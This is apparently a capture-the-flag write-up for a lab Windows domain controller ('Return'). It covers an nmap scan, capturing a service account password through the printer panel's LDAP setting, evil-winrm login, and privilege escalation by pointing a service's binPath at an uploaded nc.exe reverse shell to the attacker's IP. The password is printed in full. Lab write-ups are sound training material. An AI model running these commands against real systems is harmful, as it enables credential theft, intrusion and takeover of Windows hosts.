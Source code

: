 ![image](https://user-images.githubusercontent.com/105310322/187504257-02bb28d7-d9e9-4274-b542-951c181b0b30.png)

### Tools: Nmap, FTP, SSH, Linpeas, Python

THe nmap scan shows alot of information but most notable are HTTP and LDAP. Running DIRB did not give much and scanning for vulnerabilities did not show anything for any of the ports either.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.95.241
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 20:18 BST
Nmap scan report for 10.129.95.241
Host is up (0.0046s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-12 19:37:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/12%OT=53%CT=1%CU=34314%PV=Y%DS=2%DC=T%G=Y%TM=62F6A7A
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-12T19:37:33
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 18m36s

TRACEROUTE (using port 21/tcp)
HOP RTT     ADDRESS
1   5.45 ms 10.10.14.1
2   4.93 ms 10.129.95.241

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

By navigating to the webpage and settings we can see our way in. All we gotta do is change the IP and set up a listner on our end.

![image](https://user-images.githubusercontent.com/105310322/184442861-f83d4bd0-3018-48ad-b55d-00fe9a9ce10b.png)

Once we connect we can see that it popped out what looks like a password so lets see where we can use it.

```console
└──╼ [★]$ sudo nc -lvnp 389
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:54957.
0*`%return\svc-printer�
                       1edFg43012!!
```
Using evil-winrm works to let us login as the service account and grab our first flag.

```cnosole
└──╼ [★]$ evil-winrm -i 10.129.95.241 -u svc-printer
Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\svc-printer> cat Desktop/user.txt
5724****************************
```
I struggled for a bit on privilege escalating here until I got some help with the group permission *Server Operators* With this membership we can get our reverse shell.

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/12/2022 2:17:55 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Set up your listener and then input the following commands on the victim. (nc.exe was not installed by default on pwnbox and sudo apt install windows-binaries was not working for me so I manually downloaded it)

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/htb-0xrogue/Downloads/nc.exe
Info: Uploading /home/htb-0xrogue/Downloads/nc.exe to C:\Users\svc-printer\Documents\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.93 1234"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```
This shell is very unstable and only lasts about 60 sec but it is just enough time to read the root flag!

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
8e5d****************************
```

GG!
